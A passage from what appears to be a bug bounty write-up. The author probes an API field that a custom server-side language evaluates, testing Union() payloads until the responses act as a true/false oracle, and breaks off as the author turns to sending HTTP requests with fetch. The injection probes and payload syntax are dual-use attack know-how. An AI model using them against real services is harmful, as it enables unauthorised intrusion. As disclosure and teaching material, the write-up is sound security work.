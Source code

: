 What I conclued here was:
- I cannot inject whatever JavaScript I want
- I can inject Banan++ functions
- the response seems to act like a true/false flag depending if the interpretation of parameter `operation` is true or false
(which was very useful to validate the code I injected)

Let's continue with `Union()`:
```json
{...REDACTED...,"operation":"Union(1,2,3)"}
{"status":400,"message":"Parse error on line 1...REDACTED..."}
```
```json
{...REDACTED...,"operation":"Union(a,b,c)"}
{"status":400,"message":"Parse error on line 1...REDACTED..."}
```
```json
{...REDACTED...,"operation":"Union('a','b','c')"}
{"status":400,"message":"Parse error on line 1...REDACTED..."}
```
```json
{...REDACTED...,"operation":"Union('a';'b';'c')"}
[{"name":"REDACTED",...REDACTED...}]
```
```json
{...REDACTED...,"operation":"Union('1';'2';'3')"}
[{"name":"REDACTED",...REDACTED...}]
```
```json
{...REDACTED...,"operation":"Union('1';'<';'3')"}
[{"name":"REDACTED",...REDACTED...}]
```
```json
{...REDACTED...,"operation":"Union('1';'>';'3')"}
[]]
```

Perfect! If `1 < 3` then the response contains valid datas (true), but if `1 > 3` then the response is empty (false).
Parameters must be separated by a semi colon.
I could now try a real attack.


## fetch is the new XMLHttpRequest

Because the request is an ajax call to the api that only returns JSON datas, it's obviously not a client side injection.
I also knew from a previous report that ArticMonkey tends to use alot JavaScript server side.

But it doesn't matter, I had to try everything, maybe I could trigger an error that would reveal informations about the system the JavaScript runs on.
Since my local testing, I knew exactly how to inject my malicious code. I tried basic XSS payloads and malformed JavaScript but all I got was the error previously mentionned.

I then tried to fire an HTTP request.
